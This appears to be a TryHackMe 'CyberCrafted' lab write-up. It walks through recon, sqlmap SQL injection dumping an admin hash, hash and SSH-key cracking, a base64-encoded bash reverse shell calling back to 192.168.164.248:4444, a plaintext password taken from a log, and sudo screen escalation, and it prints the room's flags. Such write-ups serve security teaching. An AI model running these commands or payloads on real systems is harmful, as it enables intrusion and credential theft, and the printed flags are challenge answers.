`---
layout: default
title: CyberCrafted
---

## TL;DR

In this challenge we exploit `SQLi` in hidden subdomain `store.crafted.thm` we found, and get `diamond123456789`'s hash, and then crack it.

After login as `diamond123456789`, we move to user `xxultimatecreeperxx` using private key we found, and crack its' passphrase. We then find the password of `cybercrafted` inside `/opt/minecraft/cybercrafted/plugins/LoginSystem/log.txt`, and lastly move to `root` using `sudo` on `screen`. 

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh, port `80` with apache http server and port `25565` with minecraft.
```bash
PORT      STATE SERVICE   REASON         VERSION                                                                                                             
22/tcp    open  ssh       syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:36:ce:b9:ac:72:8a:d7:a6:b7:8e:45:d0:ce:3c:00 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDk3jETo4Cogly65TvK7OYID0jjr/NbNWJd1TvT3mpDonj9KkxJ1oZ5xSBy+3hOHwDcS0FG7ZpFe8BNwe/ASjD91/TL/a1gH6OPjkZblyc8FM5pROz0Mn1JzzB/oI+rHIaltq8JwTxJMjTt1qjfjf3yqHcEA5zLLrUr+a47vkvhYzbDnrWEMPXJ5w9V2EUxY9LUu0N8eZqjnzr1ppdm3wmC4li/hkKuzkqEsdE4ENGKz322l2xyPNEoaHhEDmC94LTp1FcR4ceeGQ56WzmZe6CxkKA3iPz55xSd5Zk0XTZLTarYTMqxxe+2cRAgqnCtE1QsE7cX4NA/E90EcmBnJh5T
|   256 e9:e7:33:8a:77:28:2c:d4:8c:6d:8a:2c:e7:88:95:30 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLntlbdcO4xygQVgz6dRRx15qwlCojOYACYTiwta7NFXs9M2d2bURHdM1dZJBPh5pS0V69u0snOij/nApGU5AZo=
|   256 76:a2:b1:cf:1b:3d:ce:6c:60:f5:63:24:3e:ef:70:d8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDbLLQOGt+qbIb4myX/Z/sYQ7cj20+ssISzpZCaMD4/u
80/tcp    open  http      syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 4E1E2DCB46BCB45E53566634707765D9
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cybercrafted
25565/tcp open  minecraft syn-ack ttl 62 Minecraft 1.7.2 (Protocol: 127, Message: ck00r lcCyberCraftedr ck00rrck00r e-TryHackMe-r  ck00r, Users: 0/1)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `cybercrafted.thm` to my `/etc/hosts`.


### Exploit SQLi in store.crafted.thm/store.php to find diamond123456789's hash and crack it 

This is the main page, nothing too intersting.



I started with fuzzing:
```bash
┌──(agonen㉿kali)-[~/thm/CyberCrafted]
└─$ ffuf -u "http://cybercrafted.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cybercrafted.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

assets                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 162ms]
index.html              [Status: 200, Size: 832, Words: 236, Lines: 35, Duration: 574ms]
secret                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 170ms]
```

Inside `/secret` I found 3 images:



Using `steghide`, I realized that the image `herobrine-3.jpeg` contains something:


I cracked the passphrase, which is `secret`, using `stegseek`:
```bash
──(agonen㉿kali)-[~/thm/CyberCrafted]
└─$ stegseek herobrine-3.jpeg -wl /usr/share/wordlists/rockyou.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "secret"
[i] Original filename: "herobrine.txt".
[i] Extracting to "herobrine-3.jpeg.out".
```



However, it contained something that i coudln't understand:
```bash
┌──(agonen㉿kali)-[~/thm/CyberCrafted]
└─$ cat herobrine-3.jpeg.out      
IDDOJQWM5BAMEQGIZLBMQQEKTSEEE======
```

I used `gobuster` to find hidden subdomains:
```bash
──(agonen㉿kali)-[~/thm/CyberCrafted]                                                                                                                       
└─$ gobuster vhost -u 'http://cybercrafted.thm/' --ad -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt                                  
===============================================================                                                                                              
Gobuster v3.8                                                                                                                                                
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                                                                                
===============================================================                                                                                              
[+] Url:                       http://cybercrafted.thm/                                                                                                      
[+] Method:                    GET                                                                                                                           
[+] Threads:                   10                                                                                                                            
[+] Wordlist:                  /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt                                                            
[+] User Agent:                gobuster/3.8                                                                                                                  
[+] Timeout:                   10s                                                                                                                           
[+] Append Domain:             true                                                                                                                          
[+] Exclude Hostname Length:   false                                                                                                                         
===============================================================                                                                                              
Starting gobuster in VHOST enumeration mode                                                                                                                  
===============================================================                                                                                              
admin.cybercrafted.thm Status: 200 [Size: 937]
store.cybercrafted.thm Status: 403 [Size: 287]
www.admin.cybercrafted.thm Status: 200 [Size: 937]
```

I added the two new subdomains to my `/etc/hosts` (of course with the ip):
```bash
admin.cybercrafted.thm
store.cybercrafted.thm
```

Then, Found on `admin.cybercrafted.thm` some login page:



I fuzzed the other subdomain, `store.cyberfracted.thm`:
```bash
┌──(agonen㉿kali)-[~/thm/CyberCrafted]
└─$ ffuf -u "http://store.cybercrafted.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -e .php -fc 403  

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://store.cybercrafted.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

assets                  [Status: 301, Size: 333, Words: 20, Lines: 10, Duration: 156ms]
search.php              [Status: 200, Size: 838, Words: 162, Lines: 28, Duration: 159ms]
:: Progress: [9500/9500] :: Job [1/1] :: 238 req/sec :: Duration: [0:00:39] :: Errors: 0 ::
```

we can find `search.php`:



Oh, it has `SQLi`, Let's use `sqlmap` with this `req.txt` to dump the data:
```bash
POST /search.php HTTP/1.1
Host: store.cybercrafted.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://store.cybercrafted.thm
Connection: keep-alive
Referer: http://store.cybercrafted.thm/search.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

search=*&submit=
```



First, fetch databases.

```bash
┌──(agonen㉿kali)-[~/thm/CyberCrafted]                                                                                                                       
└─$ sqlmap -r req.txt --batch --dbs 

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] webapp
```

Then, tables from db `webapp`:
```bash
┌──(agonen㉿kali)-[~/thm/CyberCrafted]                                                                                                                       
└─$ sqlmap -r req.txt --batch -D webapp --tables

Database: webapp
[2 tables]
+-------+
| admin |
| stock |
+-------+
```

After, I want dump admin table:
```bash
┌──(agonen㉿kali)-[~/thm/CyberCrafted]
└─$ sqlmap -r req.txt --batch -D webapp -T admin --dump

Database: webapp
Table: admin
[2 entries]
+----+------------------------------------------+---------------------+
| id | hash                                     | user                |
+----+------------------------------------------+---------------------+
| 1  | 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01 | xXUltimateCreeperXx |
| 4  | THM{bbe315906038c3a62d9b195001f75008}    | web_flag            |
+----+------------------------------------------+---------------------+
```



First, we got the first flag:
```bash
THM{bbe315906038c3a62d9b195001f75008}
``` 

Next, we want to crack the hash, I used [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash)



```bash
88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01:diamond123456789
```

Okay, let's use these credentials to login:
```bash
xXUltimateCreeperXx:diamond123456789
```

### Find private key of xxultimatecreeperxx and crack its' passphrase

Here we login with the credentials.



I tried to execute `id`, and it worked:



Then, paste the penelope payload:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```

and get reverse shell.




We can find private key on `/home/xxultimatecreeperxx`.



I downloaded it, and crack the password:
```bash
┌──(agonen㉿kali)-[~/thm/CyberCrafted]
└─$ ssh2john id_rsa > hash.txt 
                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/CyberCrafted]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
creepin2006      (id_rsa)     
1g 0:00:00:14 DONE (2026-01-02 15:52) 0.06835g/s 129597p/s 129597c/s 129597C/s creese..creep25
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```



Now, we can login using the passphrase to user `xxultimatecreeperxx`:
```bash
ssh xxultimatecreeperxx@cybercrafted.thm -i id_rsa # creepin2006
```



After login, inside `/opt/minecraft/` we can find a flag:
```bash
xxultimatecreeperxx@cybercrafted:/opt/minecraft$ cat minecraft_server_flag.txt 
THM{ba93767ae3db9f5b8399680040a0c99e}
```

### Find cybercrafted's password at /opt/minecraft/cybercrafted/plugins/LoginSystem/log.txt 

When I checked our `id`, we can see we are in group `minecraft`:
```bash
xxultimatecreeperxx@cybercrafted:~$ id
uid=1001(xxultimatecreeperxx) gid=1001(xxultimatecreeperxx) groups=1001(xxultimatecreeperxx),25565(minecraft)
```

I found a `note.txt` at `/opt/minecraft/`:
```bash
xxultimatecreeperxx@cybercrafted:/opt/minecraft$ cat note.txt 
Just implemented a new plugin within the server so now non-premium Minecraft accounts can game too! :)
- cybercrafted

P.S
Will remove the whitelist soon.
```



Okay, let's visit this new plugin, located at `/opt/minecraft/cybercrafted/plugins/LoginSystem`.



Inside `log.txt` we can find the password of user `cybercrafted`:
```bash
xxultimatecreeperxx@cybercrafted:/opt/minecraft/cybercrafted/plugins/LoginSystem$ cat log.txt 

[2021/06/27 11:25:07] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:25:16] cybercrafted registered. PW: JavaEdition>Bedrock
[2021/06/27 11:46:30] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:47:34] cybercrafted logged in. PW: JavaEdition>Bedrock
[2021/06/27 11:52:13] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:57:29] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:57:54] cybercrafted logged in. PW: JavaEdition>Bedrock
[2021/06/27 11:58:38] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:58:46] cybercrafted logged in. PW: JavaEdition>Bedrock
[2021/06/27 11:58:52] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:59:01] madrinch logged in. PW: Password123


[2021/10/15 17:13:45] [BUKKIT-SERVER] Startet LoginSystem!
[2021/10/15 20:36:21] [BUKKIT-SERVER] Startet LoginSystem!
[2021/10/15 21:00:43] [BUKKIT-SERVER] Startet LoginSystem!
[2026/01/03 17:04:06] [BUKKIT-SERVER] Startet LoginSystem!
```

So, let's move to user `cybercrafted`:
```bash
xxultimatecreeperxx@cybercrafted:/opt/minecraft/cybercrafted/plugins/LoginSystem$ su cybercrafted # JavaEdition>Bedrock
Password: 
cybercrafted@cybercrafted:/opt/minecraft/cybercrafted/plugins/LoginSystem$ id
uid=1002(cybercrafted) gid=1002(cybercrafted) groups=1002(cybercrafted)
```



and the user flag:
```bash
cybercrafted@cybercrafted:~$ cat user.txt 
THM{b4aa20aaf08f174473ab0325b24a45ca}
```


### Privilege Escalation to Root using sudo on screen

I checked for user permissions:
```bash
cybercrafted@cybercrafted:/opt/minecraft/cybercrafted/world/stats$ sudo -l
Matching Defaults entries for cybercrafted on cybercrafted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cybercrafted may run the following commands on cybercrafted:
    (root) /usr/bin/screen -r cybercrafted
```

We can execute screen as root, so I executed this command:
```bash
sudo /usr/bin/screen -r cybercrafted
```

